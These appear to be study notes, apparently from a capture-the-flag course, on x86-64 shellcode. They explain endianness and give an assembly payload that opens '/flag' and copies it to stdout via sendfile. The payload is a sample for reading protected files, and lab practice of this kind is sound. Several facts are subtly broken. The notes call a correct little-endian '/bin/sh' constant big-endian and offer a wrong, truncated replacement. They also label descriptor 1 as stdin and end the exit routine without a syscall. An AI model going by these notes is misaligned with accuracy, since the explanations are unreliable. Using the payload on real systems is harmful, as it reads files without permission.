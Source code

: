 
Let us store a 8 byte number 0x1122334455667788 in memory.

![[Pasted image 20221229224021.png]]

  

When we are writing our shellcode, we need to be aware of the endianness of the data. Endianness is the order in which data is stored in memory. So if we are writing shellcode for a little-endian system, then we need to write our data in reverse order.

  

For example:

  

```x86asm

mov rbx, 0x0068732f6e69622f # move "/bin/sh\0" into rbx

```

  

This code will work on a big-endian system, but on a little-endian system it will need to be written as:

  

```x86asm

mov rbx, 0x2f62696e2f

```

  

### Non-shell shellcode

We can write a shellcode that can do many things other than just spawning a shell. For example, we can write a shellcode that can open a file and send it's data to provided file descriptor (*1 = stdin*). For that we have shellcode like:

  

```x86asm

mov rbx, 0x00000067616c662f # push "/flag" filename

push rbx

mov rax, 2 # syscall number of open

mov rdi, rsp # point the first argument at stack (where we have "/flag")

mov rsi, 0 # NULL out the second argument (meaning, O_RDONLY)

syscall # trigger open("/flag", NULL)

mov rdi, 1 # first argument to sendfile is the file descriptor to output to (stdout)

mov rsi, rax # second argument is the file descriptor returned by open

mov rdx, 0 # third argument is the number of bytes to skip from the input file

mov r10, 1000 # fourth argument is the number of bytes to transfer to the output file

mov rax, 40 # syscall number of sendfile

syscall # trigger sendfile(1, fd, 0, 1000)

mov rax, 60 # syscall number of exit

```